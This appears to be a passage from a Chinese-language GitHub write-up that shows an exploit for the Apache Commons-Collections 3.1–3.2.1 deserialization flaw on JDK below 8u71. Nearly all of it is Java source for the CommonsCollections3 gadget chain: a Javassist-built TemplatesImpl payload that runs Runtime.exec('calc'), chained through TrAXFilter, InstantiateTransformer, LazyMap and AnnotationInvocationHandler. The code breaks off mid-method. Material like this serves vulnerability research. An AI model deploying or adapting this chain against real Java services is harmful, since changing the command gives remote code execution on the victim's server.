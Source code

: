 Commons-Collections 3.1-3.2.1

Java JDK < 8u71

### Exp展示

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollections333333333");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");

        byte[] bytes=payload.toBytecode();

        Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templatesImpl,new byte[][]{bytes});

        Field field1=templatesImpl.getClass().getDeclaredField("_name");
        field1.setAccessible(true);
        field1.set(templatesImpl,"test");


        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap= LazyMap.decorate(map,chainedTransformer);

        Class cls=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor=cls.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);

        InvocationHandler invocationHandler=(InvocationHandler)constructor.newInstance(Override.class,lazyMap);
```